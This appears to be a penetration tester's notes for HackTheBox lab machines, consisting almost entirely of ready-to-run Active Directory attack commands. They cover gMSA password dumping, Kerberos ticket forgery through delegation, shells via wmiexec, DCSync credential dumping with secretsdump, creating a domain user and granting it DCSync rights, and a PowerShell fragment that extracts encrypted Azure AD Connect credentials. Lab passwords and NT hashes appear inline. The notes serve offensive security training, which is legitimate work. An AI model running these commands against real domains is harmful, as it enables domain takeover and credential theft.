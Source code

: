 ```
.\GMSAPasswordReader.exe --accountname svc_apache$
```
- current value rc4_mac is the NT hash
extract hash from user's listed in above command (need creds)
```
python3 gMSADumper.py -u ted.graves -p Mr.Teddy -l intelligence.htb -d intelligence.htb
```
forge ticket from delegated service, pass ticket from previous command:
```
getST.py -dc-ip 10.129.227.54 -spn www/dc.intelligence.htb -hashes :51e4932f13712047027300f869d07ab6 -impersonate administrator intelligence.htb/svc_int
```
shell via cached ticket (caches automatically from previous command):
```
KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass administrator@dc.intelligence.htb
```
- make sure `dc.intelligence.htb` is added to `/etc/host` before running

DC Sync Attack  ^8bdeef
- requirements: user creds with DCSync privileges
```
secretsdump.py -just-dc egotistical-bank.local/svc_loanmgr:Moneymakestheworldgoround\!@10.129.102.130
```
- will return admin hash
	- take part of hash after `:` and pass-the-hash with `-H` via `nxc` or `evil-winrm`
Can create new user to perform DC Sync if needed:
- `. .\PowerView.ps1`
- `net user zeus password /add /domain`
- `net users /domain`
	- make sure zeus is listed
- `net group "Exchange Windows Permissions" /add zeus`
	- adding zeus to group with DCSync privileges
- `net user zeus`
	- make sure group is listed
- `$pass = convertto-securestring 'password' -AsPlainText -Force`
- `New-Object System.Management.Automation.PSCredential('htb\zeus', $pass)`
- `Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity zeus -Rights DCSync`
	- if fails, re-import PowerView.ps1
- run `secretsdump.py` command above from kali


Azure Connect abuse ^b9f60c
- requires creds to a user with Azure Admins group membership
```
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()
```